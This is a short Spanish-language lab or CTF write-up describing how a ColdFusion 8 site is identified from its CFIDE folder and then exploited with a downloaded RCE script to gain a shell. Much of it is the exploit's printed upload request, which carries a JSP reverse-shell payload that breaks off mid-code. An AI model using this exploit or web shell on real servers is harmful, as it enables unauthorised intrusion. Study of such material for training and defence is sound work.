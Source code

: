Dentro de la primera carpeta encontramos esta estructura que parece pertenecer a un sitio web:
![[Pasted image 20240108095831.png]]

Una busqueda en google por **CFIDE** nos da la pista de que puede tratarse ColdFusion:
![[Pasted image 20240108095959.png]]
### Adobe ColdFusion 8 Exploitation  

Si buscamos por exploits en google, encontramos un RCE que es para la version 8 de ColdFusion:
![[Pasted image 20240108100816.png]]

Lo descargamos en nuestra maquina para posteriormente modificar estas lineas de codigo para ajustarlas a nuestro caso:
![[Pasted image 20240108101038.png]]

Lo ejecutamos y ya obtendriamos una shell en la maquina victima:
```ruby
# python3 exploit.py

Generating a payload...
Payload size: 1497 bytes
Saved as: fd3868f42475416fa6b58b62a8d39a37.jsp

Priting request...
Content-type: multipart/form-data; boundary=9f93cb0c7f9f409d8287650d81409efc
Content-length: 1698

--9f93cb0c7f9f409d8287650d81409efc
Content-Disposition: form-data; name="newfile"; filename="fd3868f42475416fa6b58b62a8d39a37.txt"
Content-Type: text/plain

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream qG;
    OutputStream i5;

    StreamConnector( InputStream qG, OutputStream i5 )
    {
      this.qG = qG;
      this.i5 = i5;
    }

    public void run()
    {
      BufferedReader tz  = null;
      BufferedWriter xZq = null;
      try
      {
        tz  = new BufferedReader( new InputStreamReader( this.qG ) );
        xZq = new BufferedWriter( new OutputStreamWriter( this.i5 ) );
        char buffer[] = new char[8192];
        int length;
        while( ( length = tz.read( buffer, 0, buffer.length ) ) > 0 )
        {
          xZq.write( buffer, 0, length );
          xZq.flush();
        }
```